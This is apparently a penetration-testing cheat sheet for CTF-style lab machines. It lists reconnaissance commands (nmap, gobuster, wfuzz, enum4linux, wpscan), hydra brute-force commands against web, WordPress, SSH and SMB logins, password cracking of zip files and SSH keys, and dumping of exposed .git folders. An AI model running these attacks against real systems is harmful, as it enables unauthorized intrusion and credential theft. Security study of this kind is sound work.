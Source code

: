 # Resources

* GTFOBins - https://gtfobins.github.io/
* Payloads All The Things - https://github.com/swisskyrepo/PayloadsAllTheThings


## Enumerations 

### Basic Scan

* Agressive scan - Will perform OS detection and version detection
    * `nmap -A -oN nmap.txt $IP`
* Run vulnerabilities scripts
    * `nmap -script vuln -oN nmapVuln.txt $IP`
* Scann all the ports
    * `nmap -A -p- -oN nmapFull.txt $IP`

### Enumerate Web Site Folders

* `gobuster dir -e -u http://$IP/ -t30 -w /usr/share/dirb/wordlists/common.txt  | tee gobuster.txt`
* `gobuster dir -e -u http://$IP/ -t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  | tee gobuster2.txt`
* `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 54 -t10 "$IP/FUZZ"`

### Find SubDomains
* `wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t30 --hw 290 -H "Host:FUZZ.somedomain.com" "http://somedomain.com/"`

### Enumerate SMB
* `enum4linux -a IP | tee enum4linux.txt`
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapSamba.txt IP`
* `smbmap -H IP`
* `smbclient -U guest \\\\10.10.166.254\\IPC$`

### Enumerate Mounts
* `nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmapRpc.txt IP`
    * To mount: `sudo mount -t nfs $IP:$SOURCE_PATH $DESTINATION_PATH`
* `showmount -e $IP`

### Enumerate Wordpress Site
* Get users: `wpscan --url $URL -e vp,u`


## Brute Forcing

### Brute Force Web Site Password
* `hydra -l SomeUser -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect' IP http-post-form`
* Basic auth: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -e snr -u -t64 10.10.174.130 http-head`
* Combine wordlists: `/usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

#### Wordpress
* `hydra -l wade -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' $URL http-post-form -v -e snr`
* `wpscan --url $URL --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`

### SSH
* `hydra -l root -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 $IP ssh`

### SMB
`hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -e snr $IP smb`

### Brute Force Zip File
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 

### Break ssh Key Password
```sh
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## Run A Python Web Server
sudo python3 -m http.server 80

## SSH Tunnel
ssh -L LOCALPORT:localhost:REMOTEPORT user@domain.com

## Dump Git From Web Site
https://github.com/internetwache/GitTools

```sh
git clone http://pwd.harder.local/.git/
./GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ gitFolder
./GitTools/Extractor/extractor.sh gitFolder/ gitExtracted
```
